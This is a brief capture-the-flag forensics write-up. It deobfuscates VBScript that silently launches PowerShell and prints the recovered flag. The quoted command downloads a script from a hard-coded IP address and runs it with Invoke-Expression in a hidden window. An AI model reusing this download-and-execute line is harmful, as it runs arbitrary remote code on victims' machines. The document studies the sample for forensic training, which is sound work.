




Download the file and extract it.





I need to find a PowerShell command, so I searched for the "powershell" string.



It was a code to execute a shell command.

```
bwetjtzw = "-Command Invoke-Expression (Invoke-RestMethod -Uri '123.124.106.221/gzewaehzw')"
grexpzgt = "Shell.Application"
rntwywkh = "powershell"
CreateObject(grexpzgt).ShellExecute rntwywkh, bwetjtzw ,"","",0
```

Let's substitute a variable into the code.

```
CreateObject("Shell.Application").ShellExecute "powershell", "-Command Invoke-Expression (Invoke-RestMethod -Uri '123.124.106.221/gzewaehzw')" ,"","",0
```

Reconstruct the PowerShell command.

```
powershell -Command Invoke-Expression (Invoke-RestMethod -Uri '123.124.106.221/gzewaehzw')
```

```
forensic{powershell -Command Invoke-Expression (Invoke-RestMethod -Uri '123.124.106.221/gzewaehzw')}
```

